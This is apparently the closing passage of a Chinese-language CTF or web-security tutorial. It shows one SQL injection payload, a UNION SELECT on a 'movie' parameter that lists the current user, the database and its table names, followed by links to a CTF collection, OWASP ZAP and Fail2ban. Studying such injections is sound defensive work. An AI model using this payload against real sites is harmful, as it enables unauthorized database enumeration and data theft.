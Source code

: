 ```

movie=-2 union select 1,user(),database(),group_concat(table_name),table_name,6,7 from information_schema.tables where table_schema=database() -- &action=go
```


# 参考资料

- [CTF大赛](https://github.com/firmianay/CTF-All-In-One)
- [OWASP ZAP（Zed Attack Proxy）是Web应用安全测试的“利器”](https://github.com/zaproxy/zaproxy)
- [Fail2ban是服务器防护的“守门人”，能监控服务器的日志文件](https://github.com/fail2ban/fail2ban)